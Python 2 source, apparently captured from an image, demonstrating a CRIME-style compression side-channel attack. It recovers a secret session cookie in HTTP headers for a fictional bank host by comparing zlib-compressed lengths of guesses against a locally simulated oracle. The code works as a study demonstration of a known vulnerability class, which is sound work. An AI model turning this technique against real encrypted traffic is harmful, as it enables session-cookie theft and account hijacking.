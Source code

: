       charset = string.letters + string.digits
       
      COOKIE = ''.join(random.choice(charset) for x in range(30))
       
      HEADERS = ("POST / HTTP/1.1\r\n"
                 "Host: thebankserver.com\r\n"
                 "Connection: keep-alive\r\n"
                 "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/22.0.1207.1 Safari/537.1\r\n"
                 "Accept: */*\r\n"
                 "Referer: https://thebankserver.com/\r\n"
                 "Cookie: secret="+COOKIE+"\r\n"
                 "Accept-Encoding: gzip,deflate,sdch\r\n"
                 "Accept-Language: en-US,en;q=0.8\r\n"
                 "Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.3\r\n"
                 "\r\n")
      BODY =    ("POST / HTTP/1.1\r\n"
                 "Host: thebankserver.com\r\n"
                 "Connection: keep-alive\r\n"
                 "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/22.0.1207.1 Safari/537.1\r\n"
                 "Accept: */*\r\n"
                 "Referer: https://thebankserver.com/\r\n"
                 "Cookie: secret=")
      cookie = ""
       
      def compress(data):
       
          c = zlib.compressobj()
          return c.compress(data) + c.flush(zlib.Z_SYNC_FLUSH)
      def getposset(perchar,chars):
          posset = []
          baselen = len(compress(HEADERS+perchar))
          for i in chars:
              t = len(compress(HEADERS+ perchar+i))
              if (t<=baselen):
                  posset += i
          return posset
      def doguess():
          global cookie
          while len(cookie)<30:
              posset = getposset(BODY+cookie,charset)
              trun = 1
              tem_posset = posset
              while 1<len(posset):
                  tem_body = BODY[trun:]
                  posset = getposset(tem_body+cookie,tem_posset)
                  trun = trun +1
              if len(posset)==0:
                  return False
              cookie += posset[0]
              print posset[0]
              return True
       